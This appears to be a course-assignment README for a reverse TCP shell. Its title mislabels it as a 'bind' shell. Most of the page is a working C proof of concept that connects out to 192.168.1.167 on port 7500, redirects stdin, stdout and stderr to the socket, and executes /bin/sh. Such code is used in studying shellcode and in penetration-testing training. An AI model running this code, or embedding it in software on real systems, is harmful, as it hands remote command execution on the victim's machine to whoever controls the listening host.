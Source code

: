 Assignment #2: Revere Bind TCP Shell:
=====================================

Instructions:
-------------
* Reverse connect to configured IP and Port
* Exec /bin/sh on successful connection
* IP and Port should be easily configurable

PoC:
----

```
int main(void){
	int fd;
	struct sockaddr_in server_addr;
	char *argv[] = { "/bin/sh", NULL };

	server_addr.sin_family = AF_INET;
	server_addr.sin_port = htons(7500);
	server_addr.sin_addr.s_addr = inet_addr("192.168.1.167");
	
	//socket
	fd = socket(AF_INET, SOCK_STREAM, 0);
	
	//connect
	connect(fd, (struct sockaddr *)&server_addr, 16);
	
	//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
	dup2(fd, 0);
	dup2(fd, 1);
	dup2(fd, 2);
	
	//execve /bin/sh
	execve(argv[0], &argv[0], NULL);
	
	return 0;
}
```
